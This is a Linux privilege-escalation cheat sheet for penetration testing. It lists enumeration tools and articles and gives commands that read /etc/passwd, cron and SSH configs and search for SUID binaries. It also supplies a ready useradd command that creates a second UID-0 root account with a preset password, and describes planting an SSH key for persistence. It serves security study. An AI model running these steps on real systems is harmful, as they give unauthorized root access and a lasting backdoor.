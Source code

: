 # Privilege Escalation

## Scripts

* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [http://pentestmonkey.net/tools/audit/unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
* linux-exploit-suggester.py
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)
* [https://github.com/TH3xACE/SUDO\_KILLER](https://github.com/TH3xACE/SUDO\_KILLER)
* [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

## Articles

* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [https://github.com/sagishahar/lpeworkshop](https://github.com/sagishahar/lpeworkshop)
* [https://blog.thehackingnomad.com/cheat-sheet-series/privesc-linux](https://blog.thehackingnomad.com/cheat-sheet-series/privesc-linux)
* [https://github.com/C0nd4/OSCP-Priv-Esc](https://github.com/C0nd4/OSCP-Priv-Esc)

## Manual

```
# Current user and hostname
whoami
id
hostname

# Existing users
cat /etc/passwd

# OS version & architecture
cat /etc/issue
cat /etc/*-release
uname -a
arch

# Processes & services
ps aux

# Networking info
ip a
/sbin/route
ss -anp

# Firewall
cat /etc/iptables
# check for iptables-save and iptables-restore commands. See if the dump file has weak permissions

# Scheduled tasks
# verify cron files permissions and content, if possible
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log

# Installed applications
dpkg -l
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null

# Check for readable/writable files & directories
find / -writable -type d 2>/dev/null

# Enumerate unmounted disks
cat /etc/fstab
mount
/bin/lsblk

# List device drivers & kernel modules
lsmod
/sbin/modinfo <name>

# Check for binaries that autoelevate
# search for binaries with SUID bit
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -002 -type f -not -path "/proc/*"  2>/dev/null

# Check SSH config
cat /etc/ssh/sshd_config

# Check various places for stuff
/var
/opt
/usr/local/src
/usr/src
/home
```

## Create Admin User

```
# mkpasswd -5 'slysandwich' saltsalt
# $1$saltsalt$ZKH1gzt6khxuPmJvab9iy0


/usr/sbin/useradd -s /bin/bash -o -u 0 -g 0 -d /tmp -p \$1\$saltsalt\$ZKH1gzt6khxuPmJvab9iy0 slysandwich
```

## Add SSH Key

Create SSH key:

```
ssh-keygen -t rsa -b 2048 -f ./user.key
```

Add the public key inside the authorized keys (\~/.ssh/authorized\_keys).
